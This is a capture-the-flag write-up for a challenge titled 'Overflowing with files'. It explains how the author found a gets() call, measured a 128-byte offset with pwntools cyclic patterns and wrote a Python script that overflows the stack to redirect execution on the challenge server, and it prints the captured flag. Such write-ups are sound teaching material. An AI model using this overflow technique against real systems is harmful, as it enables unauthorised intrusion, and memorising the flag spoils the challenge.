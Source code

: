 ### Overflowing with files
![Question](https://github.com/alexbravo17/SecEduCTF2024Writeup/blob/main/Week1/images/overflowingwithfilesq.png)

Given chal, which is an ELF
run `readelf -s chal`, I'm looking for vulnerable functions in dynamic library or maybe some user-defined functions
There is `gets()` function, so this is another buffer overflow problem.
![readelf](https://github.com/alexbravo17/SecEduCTF2024Writeup/blob/main/Week1/images/overflowingwithfiles.png)

Setup another `pwned2.py`, with same code structure as portal

Run the ELF, how nice that they give the address we need to give to rip (return instruction pointer), so in pwntools, read the input prompt, extract that hex address and put in into a payload

This time, I use `pwn cyclic 400` to generate a cyclic text, then run it in gdb (or gef), then `pwn cyclic -l <pattern>` where pattern is the thing that replaces the address in initial prompt. This gets the offset of 128.

Some manouvering with hex address and endianness, voila.

**SECEDU{h0w_c4n_u_0v3rfl0w_with_0n3_f1le?}**
```
from pwn import *

host = "chals.secedu.site"
port = 5001
offset = 128

elf = ELF("./chal")
# this for debugging purpose, real deal is remote()
# p = elf.process()
p = remote(host, port)

info = p.recv()
addr = info.split(b'\n')[0].split()[-1]
addr = int(addr.decode(), 16)
log.info(info)

payload = b'O' * offset + p32(addr)

p.sendline(payload)
log.success(p.recv())
```